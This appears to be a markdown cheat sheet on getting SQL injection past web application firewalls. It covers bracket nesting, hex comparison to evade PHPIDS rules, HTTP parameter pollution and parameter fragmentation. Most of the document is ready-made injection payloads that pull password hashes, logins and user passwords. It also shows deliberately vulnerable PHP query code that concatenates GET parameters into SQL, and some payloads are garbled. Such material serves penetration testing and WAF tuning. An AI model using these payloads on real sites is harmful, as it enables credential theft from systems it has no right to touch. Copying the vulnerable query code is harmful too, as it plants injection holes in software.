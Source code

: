 # Advanced WAF Bypass



# WAF Filter Rules Bypass


## Example

- If we are testing the `http://web.com?id=1`, then WAF filter rule is like:

`/?id=1+union+(select+*+from+password)`

- This request is easily blocked by WAF and we can bypass: 

`/?id=(1)union(select(1),mid(hash,1,32)from(password))`
`?/?id=1+union+(select'1',concat(login,hash)from+passwords)`


- Many WAF filter only one layer of brackets, so we can bypass using additional layer of brackets

`/?id=(1)union(((((((select(*),hex(hash)from(passwords))))))))`


## PHPIDS (PHP Intrusion Detection System) WAF

- PHPIDS has sone default filter rules that you can find in its GitHub Page

#### WAF RULE 

`/?id=1+OR+1=1`

#### By pass

`?id=1+OR+0x50=0x50`





# HTTP parameter Pollution (HPP)

- sending a number of parameter with the same name

- Technology interpret this request differently 



#### Normal Payload

`http://www.website.com/products/?productid=1`

#### Bypass Payload


`http://www.website.com/products/?productid=1&productid=2`

<table>	
	<tr>
		<th>Backend </th>
		<th>Behavior </th>
		<th>Process </th>
	</tr>
	<tr>
		<td>ASP.NET </td>
		<td>Concat with comma </td>
		<td>productid=1,2 </td>
	</tr>
	<tr>
		<td>JSP </td>
		<td>First Para </td>
		<td>productid=1 </td>
	</tr>
	<tr>
		<td>PHP </td>
		<td>Last Para </td>
		<td>productid=2 </td>
	</tr>
	

</table>




## HPP Exploitation with SQL

#### SQL injection code

`http://website.com/?id=”queryquery1”&id=”queryquery2`

#### Backend Query

`select key from table where id="+Request.QueryString("id")`

#### WAF by pass

`/?id=1/**/union/*&id=*/select/*&id=*/pwd/*&id=*/from/*&id=*/users`

- WAF remove all `id` parameter excpet last `id` (Beacaues of HPP)
- `/**/` is sql comment
- So, Only SQL query is left in the end and executed

#### Final Query in the end 

`select key from table where
id=1/**/union/**/select/**/pwd/**/from/*,*/users`



# HTTP Parameter Fregmentation (HPF)

#### Vulnerable code

`Query("select * from table where a=".$_GET['a']." and b=".$_GET['b']);
Query("select * from table where a=".$_GET['a']." and b=".$_GET['b']." limit".$_GET['c']);`


#### WAF RULE 

`/?a=1+union+select+1,2/*`


#### Bypass suing HPF

`?a=1+union/*&b=*/select+1,2`

`/?a=1+union/*&b=*/select+1,pass/*&c=*/from+users--`

#### SQL Query in the end

`select * from table where a=1 union/* and b=*/select 1,2`

`select * from table where a=1 union/* and b=*/select 1,pass/* limit */from users--`
